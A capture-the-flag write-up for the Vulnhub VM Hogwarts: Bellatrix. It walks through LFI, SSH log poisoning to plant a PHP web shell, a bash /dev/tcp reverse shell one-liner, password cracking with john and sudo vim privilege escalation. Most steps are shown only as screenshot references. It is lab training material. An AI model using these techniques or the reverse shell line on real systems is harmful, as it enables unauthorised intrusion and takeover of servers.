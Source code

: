 # Hogwarts: Bellatrix - Writeup

Bellatrix is the second of two Hogwarts VM series from Vulnhub by BLY.<br />
It's a Medium level machine.<br />
Link to the machine: [https://www.vulnhub.com/entry/hogwarts-bellatrix,609/](https://www.vulnhub.com/entry/hogwarts-bellatrix,609/) 

<br />

## Target discovery

The first step is identifying our target's IP address.

```
sudo netdiscover -i vboxnet0 -r 10.10.10.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts

2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 102
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
10.10.10.1      08:00:27:e9:cd:e1      1      42  PCS Systemtechnik GmbH
10.10.10.7      08:00:27:49:7b:93      1      60  PCS Systemtechnik GmbH
```
<br />

## Scanning The Target

Let's scan our target for open ports, running services, and version detection.

![](Pics/nmap.png)
<br />

We have `SSH` and `HTTP`.

<br />

## Enumeration

Examining the web page.

![](Pics/web.png)
<br />
<br />

Let's inspect the source code.

![](Pics/web2.png)
<br />
<br />

There's a comment hinting us to a directory with LFI. When we visit the directory `ikilledsiriusblack.php` nothing changed, so the page exists.

![](Pics/web3.png)
<br />
<br />

Let's try to include a file like `/etc/passwd`.

![](Pics/web4.png)
<br />
<br />

## Getting access

So, we have `LFI (local file inclusion)`, and in Nmap result, we saw that we have ssh.<br />
`SSH Log Poisoning` will give us the ability to make a reverse shell in the web server.<br />
First, let's read the auth log.

![](Pics/web5.png)
<br />
<br />

Now, let's ssh to the server with any name.

![](Pics/ssh.png)
<br />
<br />

Back to the log file.

![](Pics/ssh2.png)
<br />
<br />

As we see above, the username we tried is logged. Let's inject a php web shell code in place of the username.

![](Pics/ssh3.png)
<br />
<br />

Navigate to `auth.log`.

![](Pics/ssh4.png)
<br />
<br />

Run some commands like `id`, `ls`, or `whoami`.

![](Pics/ssh5.png)
<br />
<br />

Now, let's make the server connect back to us, open a listener, and modify this reverse shell.
`bash -c 'bash -i >& /dev/tcp/<IP>/<Port> 0>&1'`. Encode it if it doesn't work.

![](Pics/shell.png)
<br />
<br />

We got a reverse shell, upgrade it.

![](Pics/shell2.png)
<br />
<br />

In `/var/www/html`, there's a directory with base64 encoded name, decode it.

![](Pics/base.png)
<br />
<br />

secrets or `c2Vj...` contains two files, one contains a user with his password, and the other one is a worldlist.

![](Pics/shell3.png)
<br />
<br />

Let's move them to our machine and crack the password.

![](Pics/shell4.png)
<br />
<br />

Crack the password with `john`.

![](Pics/crack.png)
<br />
<br />

Now, switch to `lestrange` via su or ssh.

![](Pics/shell5.png)
<br />
<br />

There's a `readme.txt` in `lestrange`'s directory.

![](Pics/shell6.png)
<br />
<br />
	
## root access

Let's escalate our privileges.

![](Pics/shell7.png)
<br />
<br />

We could use `vim` to get root access [https://gtfobins.github.io/gtfobins/vim/#sudo](https://gtfobins.github.io/gtfobins/vim/#sudo)

![](Pics/root.png)
<br />
<br />

Finally, let's get our flags.

![](Pics/root2.png)
<br />